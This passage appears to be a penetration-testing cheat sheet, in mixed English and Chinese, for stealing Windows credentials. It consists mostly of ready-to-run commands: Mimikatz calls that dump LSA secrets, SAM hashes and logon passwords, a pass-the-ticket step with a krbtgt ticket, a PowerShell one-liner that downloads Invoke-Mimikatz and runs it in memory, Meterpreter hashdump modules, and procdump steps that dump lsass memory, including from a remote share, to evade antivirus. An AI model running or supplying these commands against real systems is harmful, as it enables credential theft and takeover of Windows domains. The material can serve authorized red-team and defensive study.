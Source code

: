 ```bash
## /id, RID for target user
lsadump::lsa /patch
lsadump::lsa /inject

# kerberos module, used without privilege;
## commands: ptt, golden/silver, list, tgt, purge

## pass the ticket
kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi

# PowerSploit Invoke-Mimikatz 获取
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

Invoke-Mimikatz -DumpCreds #Dump creds from memory
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'

# msf mimikatz, meterpreter
meterpreter>load mimikatz
meterpreter>mimikatz_command -f mimikatz的指令
privilege::debug #提权  
samdump::hashes #dump哈希  
## 或者
meterpreter>msv/kerberos/widgst

## meterpreter自带hash获取module
meterpreter>hashdump
meterpreter>run windows/gather/smart_hashdump   //(推荐使用这个)
```

#### Bypass AV
+ check hacktricks, [bypass av](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#bypassing-av)
+ dump hash from lsass process(memory), procdump + mimikatz
  > lsass进程负责Windows本地安全和登录策略，所有通过本地、远程身份成功登陆的用户信息都会保存在lsass.exe进程的内存中，其转储文件可用来抓取明文密码和哈希值
  > procdump, windows自带工具可免杀（部分情况）[Systeminternals-suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) [procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)

```bash
# lsass process dump
## need rdp， 任务管理器转储
## taskmgr 打开任务管理器，找到lsass.exe进程，右键-->创建转储文件，保存;生成文件路径样例：
C:\Users\ADMINI~1\AppData\Local\Temp\lsass.DMP

## Procdump 
## Local
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
## Remote, mount https://live.sysinternals.com which contains procdump.exe
net use Z: https://live.sysinternals.com
Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Extract creds from the dump.
## //Load the dump
privilege::debug
sekurlsa::minidump lsass.dmp
## Extract credentials
log passdump.log
sekurlsa::logonpasswords [full]

## pypykatz dump
pypykatz lsa minidump ./lsass.DMP > lsadump.log
```
